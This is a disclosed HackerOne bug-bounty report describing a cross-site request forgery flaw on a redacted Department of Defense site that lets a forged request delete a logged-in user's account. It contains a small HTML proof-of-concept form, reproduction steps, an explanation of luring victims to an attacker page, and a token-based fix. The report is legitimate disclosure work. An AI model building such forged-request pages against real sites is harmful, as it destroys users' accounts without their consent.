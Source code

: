 # CSRF - Delete Account (Urgent)

## Report Details
- **Report ID**: 799855
- **URL**: https://hackerone.com/reports/799855
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-19T15:22:59.283Z
- **Disclosed**: 2022-03-18T18:59:20.224Z

## Reporter
- **Username**: ahmd_halabi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Target Url**
https://██████████/███/██████/█████████

**Summary:**
Hello, I found a Cross Site Request Forgery bug in the target endpoint on the GET request `████` which is critical because it can delete authenticated user account whenever he navigates to the attacker website or link.

## Step-by-step Reproduction Instructions

1. Navigate to your account in `https://█████████/████/`
2. Copy and paste the below code in an html file
```
<html>
  <body>
    <form action="https://████/████/███/">
      <input type="hidden" name="action" value="delete&#95;profile" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
3. Open it in the browser, hit the button and your account will be deactivated.

## Suggested Mitigation/Remediation Actions
Add a csrf-token in the header or in an hidden input to check if the user that is doing this action authorized or not.

## Impact

This action is critical and sensitive. Attacker can upload this file to a url. Sends it to the victims. And when the authenticated victims navigate to the url their accounts will be deleted.

## Attachments
No attachments
